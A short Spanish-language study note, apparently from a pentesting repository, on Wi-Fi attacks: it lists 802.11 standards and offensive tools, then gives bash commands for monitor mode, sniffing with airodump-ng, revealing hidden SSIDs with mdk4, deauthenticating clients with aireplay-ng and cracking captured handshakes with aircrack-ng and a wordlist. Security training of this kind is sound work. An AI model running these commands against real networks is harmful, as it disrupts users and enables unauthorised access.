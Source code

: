 ###### Standar Wifi 802.11
Existen varias versiones compatibles entre sí
- 802.11a
- 802.11b
- 802.11g
- 802.11n (es la más conocida)
- 802.11ac (modificadores MAC, nuevos campos de encabezados para identificar tramas )

###### Herramientas Software
- Aircrack-ng
- Arp-scan
- Responder
- CeWL
- Eaphammer
- EAP_buster
- Wpa_sycophant
- Airgeddon
- Wifi_db
- hashcat

setxkbmap es

##### Cambiar a modo monitor

``` bash
iwconfig
sudo airmon-ng start wlan0
```

##### Snifar redes y obtener información (canal, mac, dispositivos conectados)

``` bash
sudo airodump-ng wlan0mon --band abg 
```

##### Filtrar por canal

``` bash
sudo airodump-ng wlan0mon -c11
```

##### Buscar ESSID de AP oculto

``` bash
mdk4 wlan0mon p -t MAC -f /diccionario
```

##### Desautenticar a un usuario

``` bash
sudo iwconfig wlan0mon channel 6
sudo airodump-ng wlan0mon -c 6 -w /donde se guarda la captura
sudo aireplay-ng -0 10 -a  MAC-AP INTERFAZ wlan0mon
sudo aircrack-ng /home/user/Desktop/mobile-01.cap -w /root/rockyou.txt
```



